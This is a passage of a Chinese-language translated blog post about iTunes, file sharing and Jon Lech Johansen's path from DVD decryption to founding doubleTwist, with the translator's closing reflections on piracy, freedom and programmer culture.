4FJyUq4tHOlAS7Idq8hopCTuug4ey778KcvpBvC1_IjzM87IpBJhYIErTCIsuBEys4hpH-UUpSWaJw%2CABHeCvjMSYlag2B4sZqsHDyYw9pWRrl7sIG_jObsPmvoJSNA3ImJilwz66-8kfgkgIWGBSMSPmTrK4Q7dcxBWLLUC8dgtBmp%2CABHeCvhkyJvRzHDmdc9nzP_4s29qavHf9HKEishBDAu1CrCPb-_RAJVCRHCpGTJp5GsRYsw7T6RO-WlSmhptR5I4sZtGnZEl%2CABHeCvj4z5Eax9h_VNo3MDfF5vI1oFHLMJtn3cQNauMp4bV-Ahf1WXFXng07fLMZj3jeDVJE35VYU3admjblUQ8CKMKolzoo&amp;pvsid=2841731554241358&amp;tmod=182273927&amp;uas=3&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F34&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=7&amp;uci=a!7&amp;btvi=7&amp;fsb=1&amp;xpc=VPHEkmjGt9&amp;p=https%3A//coolshell.cn&amp;dtd=39300" data-google-container-id="a!7" data-google-query-id="CN3936W5-f4CFd8R-QAdTO4LJA" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

另外一个重要的原因是唱片业的灾难是不会发生的。Steve Jobs 在 2003年4月28日，那段时间是互联网文件共享井喷的时候，Apple揭开了iTunes Music Store的面纱。在那个时候，我们都觉得iTunes不可能成功，就像[Snocap](https://en.wikipedia.org/wiki/SNOCAP)以及他和它类似的项目都以失败告终。这是因为，你怎么可以可能和免费竞争呢？

但是iTunes 确实成功了。Apple无情地强调着简单和有魅力的用户接口，以及有乔布斯对唱片业的那强有力的谈判，造就了一个最新型的专业的服务，其可以让你放心地下载并传输音乐。的确是做到了，尽管其是收费的，而且我们的购买需要和DRM（数字版权管理）扯上关系并限制我们。

<iframe id="aswift_8" name="aswift_8" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=3730229879&amp;adf=486758483&amp;pi=t.aa~a.425447425~i.81~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684201650&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F3363.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xsT52Dh1_M6qWUBBs9DDJwKwJLF83YCtKWMLStiyLNut97-XZ4_eIXD-tv5zPSRX4WceWnM&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684226636540&amp;bpp=1&amp;bdt=7051&amp;idt=2&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D10f79cd37fd225d8-2254bbd932df007a%3AT%3D1684226377%3ART%3D1684226377%3AS%3DALNI_MbTwz9ERLCRvvD51JOTAk_4WvPa1g&amp;gpic=UID%3D0000098b16346c83%3AT%3D1684226377%3ART%3D1684226377%3AS%3DALNI_MbSUKrPXwJQ8WMCBTebMaaTf0LYXg&amp;prev_fmts=0x0%2C1200x280%2C1447x764%2C704x280%2C704x280%2C1005x124%2C704x280%2C704x280%2C704x280%2C704x280&amp;nras=11&amp;correlator=7136331596878&amp;frm=20&amp;pv=1&amp;ga_vid=479574193.1684226376&amp;ga_sid=1684226376&amp;ga_hid=874561780&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=8167&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=5141&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31074468%2C31074545%2C31074635%2C44788442%2C44792089&amp;oid=2&amp;psts=ABHeCvgdMsVI7xHu7PJKsAmw2myDSsWfzjY_Z-PKPoo6MUMeEp4iEY1OPAjkNXkLxP_dP0dvCHYeLCdWlTfD%2CABHeCvi89fGwXXKDd_UTVa5omJAKFn4gJMZoP1tW0I13NqmFjpZdlErWPEfbItuHqtMhblyVmyG7yYMcInST8JFxQoNPcp1GbD8xL-HxrX2zJ6gh3k9kZw%2CABHeCvjUIYtj9MTIWt4FJyUq4tHOlAS7Idq8hopCTuug4ey778KcvpBvC1_IjzM87IpBJhYIErTCIsuBEys4hpH-UUpSWaJw%2CABHeCvjMSYlag2B4sZqsHDyYw9pWRrl7sIG_jObsPmvoJSNA3ImJilwz66-8kfgkgIWGBSMSPmTrK4Q7dcxBWLLUC8dgtBmp%2CABHeCvhkyJvRzHDmdc9nzP_4s29qavHf9HKEishBDAu1CrCPb-_RAJVCRHCpGTJp5GsRYsw7T6RO-WlSmhptR5I4sZtGnZEl%2CABHeCvj4z5Eax9h_VNo3MDfF5vI1oFHLMJtn3cQNauMp4bV-Ahf1WXFXng07fLMZj3jeDVJE35VYU3admjblUQ8CKMKolzoo%2CABHeCviAP0XSxyfgPGPMJVoK3tMdt9niruWdsFhnPapGbOqhAhN0Z9-k2F1YT-D0g6QDpc7FL3NrENw8UsTY_Meyo5R9BXBe%2CABHeCvjjx_c_Acm3F_Jiz5jVeqX9NE-tSBPErvx_AiSD4Cd-WgyFlMmAyLjCA6bX2pGagqotdLaiiF6eVBkm7NwblzcmSgbY&amp;pvsid=2841731554241358&amp;tmod=182273927&amp;uas=3&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F34&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=9&amp;uci=a!9&amp;btvi=8&amp;fsb=1&amp;xpc=Z25Qhlhyx9&amp;p=https%3A//coolshell.cn&amp;dtd=41265" data-google-container-id="a!9" data-google-query-id="CMGC2aa5-f4CFcbpZAod0doBuw" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

于是，我们看到了可以和免费竞争的东西——简单（译注：个人以为可能还需要加上一点时尚）。Napster, Gnutella 和 BitTorrent 从来没有在用户友好度上到达像Apple那样的境界。从来没有人在网上检查并整理那些文件内容，所以，当那些众多的文件被共享时，我们可以看到，很多文件加杂时广告，色情，木马，病毒以及其它一些垃圾。当乔布斯为我们提供了那条简单之路，我们接受了。很明显，自由太过头——至少数字媒体是这样的。

这是一个让那些年轻的海盗王们认真学习的教训。就像 Fanning, Frankel 和 Cohen一样， 其实，Jon Lech Johansen 并不能算得上是一个真正的海盗。他没有因为想把好莱坞搞破产而去帮助破解DVD，他这样做是因为他想在他的电脑上看电影。他的电脑安装的是Linux操作系统，而1999年，在Linux上根本没有可以用来播放DVD的程序，所以，他和他的伙伴们决定自己写一个，所以，他们不得不先把DVD给解密了。

当美国电影协会（ Motion Picture Association of America）发现了DVD被破解的这个事，其向挪威政府控告 Johansen，并拘留了他。 他在奥斯陆(挪威的首都)受审两次，不过两次都被宣告无罪。因为他解密的DVD是他付费购买的。

但Johansen真正的明白消费者对其购买的数字媒体的权利，这就好像一本书一样——我们可以不断的使用这本书，或是把这本书借出去，这是我们的权利。2005年， Johansen 去了加利福尼亚，在那里，他逆向工程了 FairPlay，这是苹果公司的用来保护其多媒体文件的DRM类软件（译注：这是苹果公司用来加密iPod的工具）。之后，他注意到了苹果公司产品的用户体验是多么的迷人，所以，他在想，应该把这些东西带给全世界给那些更为无序的非苹果的产品。


“我们看到这世上有很多很多的产品，但其并没有像他们那样良好地运作”，Johansen说，那时他26岁的程序员。“所以，我们应该开发一个系统，其可以让这些设备的整合起来并给消费者他一个相当不错的用户体验”。

所谓的 “我们”，就是 Johansen 自己的公司—— doubleTwist，这个公司于2007年创建。 doubleTwist 软件是免费的，是一种像[罗塞塔石](https://zh.wikipedia.org/zh-cn/羅塞塔石碑)一样的为数字多媒体软件文件开发的软件——它是可以翻译，和谐并组织大约500种不同设备的文件，把他们放在一起并提供一个相当漂亮的接口。其6月份， doubleTwist 摧出 Android App，当时就有超过50万的用户下载了（译注：大家可以[Google一下](https://www.google.com/search?q=doubleTwist+android+app)，好评如潮）。去年， doubleTwist 开始了他的政变打出了这样的广告：“The Cure for iPhone Envy. Your iTunes library on any device. In seconds.”（嫉妒iPhone的对策。你的iTunes库可以在任何设备上，只需几秒钟。）它这个条幅挂在了苹果在旧金山的旗舰店的外墙上。

Johansen 拒绝承认他和盗版有关系。“至于我被所指责的，真的和我没有什么关系”，他说。“我支持公平使用，意思是你的确是需要合法地获得内容，但你应该有权利使用任何一款设备或是应用程序来查看那些内容”。 Johansen 像所有的海盗王一样，他总是能写好的代码，而这些好的代码给了人民使用的权力。这才是盗版灾难不会发生的真正原因。**盗版永远不希望所有的音乐和电影或是其它的东西成为免费的，他们想要的“free”其实是自由！**

————————————正文结束————————————

最后一句话是点睛之笔，作者对这个世界的认识真是相当的透彻。所以，加粗了。我个人理解本文带给我如下的启示：

1. 年轻就应该豁得出去，就应该有天不怕地不怕的想法，并付诸于行动。
2. 互联网上的盗版永远不会停止，与其说是盗版，其后面则是自由和无政府主义。
3. 自由过度并不是那些利益集团所希望的，并可能会让你惹上麻烦，不过这世界总是因此而改变。
4. 版权限制和免费并不是最好的，而最根本的是尊重用户的自由权以及不断地化繁为简以改善用户的体验。

另，题外话，最近一段时间都在招人，有一天，一个同事和我说，“现在的这些程序员怎么回事啊？我问他们：‘你心目中的最牛的程序员是谁？’，居然回答不出来，有人说是Bill Gates，还有人说是马云，气死我了……”。我想想也真是可笑，难道，Dijkstra，Linus，Ken Thompson，Dennis Ritchie，Richard Steven，Bjarne Stroustrup…… 这些人不认识吗？就知道有钱人，哎，这个时代真是个文化缺失的年代！。

推荐本站的几篇文章：[Unix传奇(上篇)](https://coolshell.cn/articles/2322.html)、[Unix传奇(下篇)](https://coolshell.cn/articles/2324.html)、[计算机编程简史图](https://coolshell.cn/articles/2724.html)、[黑客的价值观](https://coolshell.cn/articles/2439.html)。

其实细想一下，不单单是我国的计算机文化都是那些肤浅的大公司的文化。

最后还是送给大家那句话——**真正让我们成为局域网的不是那个墙，而是我们自己的肤浅**。

（全文完）